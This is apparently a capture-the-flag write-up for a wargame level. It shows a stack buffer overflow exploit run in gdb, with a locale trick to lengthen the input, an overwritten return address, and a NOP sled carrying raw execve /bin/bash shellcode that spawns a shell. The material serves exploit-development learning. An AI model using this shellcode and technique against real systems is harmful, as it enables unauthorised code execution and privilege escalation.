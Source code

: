 # level6

## Here we go

1. Let's switch locale to deutsch so we can actually overflow the buffer with the strcat.

```
export LANG=de
```


```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABB $(python -c 'print "CCCCDDDDCCCCDDDDCCCCDDDZZ\xef\xbe\xad\xdeYYYGGGGHHHHHIIIIJJJJ"')
Starting program: /levels/level06 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABB $(python -c 'print "CCCCDDDDCCCCDDDDCCCCDDDZZ\xef\xbe\xad\xdeYYYGGGGHHHHHIIIIJJJJ"')
Willkommen AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBCCCCDDDDCCCCDDDDCCCCDDDZZﾭ�YYY

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()

```

2. Good now let's add our shellcode with a NOP sled just before.

```
(gdb) run $(python -c 'print "\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"') $(python -c 'print "CCCCDDDDCCCCDDDDCCCCDDDZZ\x14\xfb\xff\xbfYYYGGGGHHHHHIIIIJJJJ"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /levels/level06 $(python -c 'print "\x90\x90\x90\x90\x90\x90\x90\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"') $(python -c 'print "CCCCDDDDCCCCDDDDCCCCDDDZZ\x14\xfb\xff\xbfYYYGGGGHHHHHIIIIJJJJ"')
Willkommen �������j
                   X�Rfh-p��Rjhh/bash/bin��RQS��̀CCCCDDDDCCCCDDDDCCCCDDDZZ���YYY
process 21744 is executing new program: /bin/bash
level6@io:/tmp/6$ exit
```

**That's it.**

See you space cowboy.

![Shimo](shimo.png) 
